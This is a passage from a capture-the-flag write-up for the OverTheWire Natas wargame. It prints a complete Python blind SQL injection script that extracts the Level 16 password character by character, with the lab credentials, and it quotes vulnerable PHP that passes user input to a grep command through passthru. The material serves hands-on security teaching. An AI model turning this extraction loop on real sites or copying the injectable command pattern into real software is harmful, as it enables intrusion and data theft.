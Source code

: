 Finally the loops. We know we have 32 characters and for each we need to test each character.

```py
for _ in range(32):
    for c in candidates:
```

We send a GET request to the site, authenticating on the way and building our query.

```py
resp = requests.get(
            url + query.format(password + c),
            auth=("natas15", "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"),
        )
```

Finally if the current character yields results, we append it to the password and do not test any more candidates for the current character index.

This technique is also called [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection), since we do not get a direct response to our query!

```py
if "exists" in resp.text:
    password += c
    print(password)
    break
```

Run the script and in no time you'll have your dear password for the next level!

The final code looks like the following:

```py
url = "http://natas15.natas.labs.overthewire.org/index.php?debug&username="
candidates = f"{string.digits}{string.ascii_letters}"
password = ""
query = 'natas16" AND password LIKE BINARY "{}%'
for _ in range(32):
    for c in candidates:
        resp = requests.get(
            url + query.format(password + c),
            auth=("natas15", "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"),
        )
        if "exists" in resp.text:
            password += c
            print(password)
            break
```

# Level 16

This level is the bigger brother of Level 9. Now they have sanitization! 
Is it that scary? Let's see.

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
```